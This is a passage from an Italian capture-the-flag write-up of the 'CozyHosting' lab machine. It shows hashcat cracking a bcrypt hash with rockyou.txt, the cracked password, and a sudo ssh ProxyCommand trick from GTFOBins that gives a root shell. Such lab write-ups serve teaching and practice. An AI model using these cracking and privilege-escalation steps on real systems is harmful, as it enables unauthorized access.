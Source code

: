 ```shell
└──╼ [★]$ hashcat -a 0 -m 3200 hash rock.txt --show
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

La password è **manchesterunited** ! Accediamo tramite ssh come root. (La wordlist utilizzata sopra è **rockyou.txt**)

## Shell come Josh

Sfortunatamente, l'ultima passowrd è di josh, e non di root. Adesso ci tocca fare una privilege escalation per ottenere la root flag.

Prendiamo la user flag.

```shell
josh@cozyhosting:~$ ls
user.txt
```

### Privilege Escalation

Come usanza, usiamo `sudo -l` per vedere se ci sono dei binary che possiamo eseguire come root.

```shell
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Andiamo su **GTFOBins** e cerchiamo ssh. Troviamo questo comando, testiamo se funziona: 

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
```

Funziona! Terminiamo così la box, prendendo la root flag.
